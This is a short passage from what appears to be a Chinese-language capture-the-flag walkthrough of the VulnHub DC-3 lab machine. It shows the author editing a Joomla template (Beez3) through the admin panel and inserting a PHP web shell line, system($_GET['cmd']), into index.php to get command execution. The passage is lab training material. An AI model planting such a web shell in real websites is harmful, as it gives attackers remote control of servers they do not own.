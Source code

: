 ![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC3/8.png)

是时候拿个 shell 玩玩了

我们可以编辑模板来获得一个反向 shell

访问 `http://192.168.141.138/administrator/index.php?option=com_templates&view=templates`

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC3/9.png)

这里随便找一个模板，我就用 Beez3 了，看它不爽

到 index.php 里加点代码
```php
system($_GET['cmd']);
```
